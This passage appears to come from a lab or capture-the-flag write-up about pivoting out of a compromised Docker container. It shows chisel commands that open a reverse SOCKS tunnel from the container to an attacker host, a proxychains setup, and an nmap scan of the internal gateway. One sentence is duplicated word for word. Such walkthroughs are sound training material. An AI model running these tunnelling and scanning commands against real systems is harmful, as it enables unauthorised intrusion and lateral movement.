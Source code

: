 One could enumerate the Docker network in order to identify other hosts present. It could be inferred from the network information that the gateway IP address is present at 172.17.0.1.

The host with an IP address of 172.17.0.1 appears to be present.

```shell
4b5c316e905f:/$ ping -c3 172.17.0.1
PING 172.17.0.1 (172.17.0.1): 56 data bytes
64 bytes from 172.17.0.1: seq=0 ttl=42 time=0.092 ms
64 bytes from 172.17.0.1: seq=1 ttl=42 time=0.107 ms
64 bytes from 172.17.0.1: seq=2 ttl=42 time=0.108 ms

--- 172.17.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.092/0.102/0.108 ms
```

In order for it to be possible to do scans of the hosts on the internal Docker network, it is considered necessary to setup a Reverse Socks proxy with chisel. In order for it to be possible to do scans of the hosts on the internal Docker network, it is considered necessary to setup a Reverse Socks proxy with chisel:

```shell
$ ./chisel_1.9.1_linux_amd64 server -p 8001 --reverse
2024/01/26 09:14:26 server: Reverse tunnelling enabled
2024/01/26 09:14:26 server: Fingerprint lXU+T5ddJSGaG/wwKwralwZoFDA+rYFMUTgsgrRTRf0=
2024/01/26 09:14:26 server: Listening on http://0.0.0.0:8001
```

After transferring the chisel track to the container, the setup is completed like this.

```shell
4b5c316e905f:/tmp$ ./chisel_1.9.1_linux_amd64 client 10.10.14.27:8001 R:1050:socks
2024/01/26 08:19:56 client: Connecting to ws://10.10.14.27:8001
2024/01/26 08:19:56 client: Connected (Latency 41.9886ms)
```

In the attacking machine, the setup is completed by specifying the use of proxy on port 1050 with proxychains.

```shell
$ echo 'socks5 127.0.0.1 1050' | sudo tee -a /etc/proxychains4.conf
socks5 127.0.0.1 1050
```

Let's test the proxy by doing an nmap scan of the host 172.17.0.1 identified earlier.

```shell
$ proxychains -q nmap -sT 172.17.0.1 -v
[...]
Nmap scan report for 172.17.0.1
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
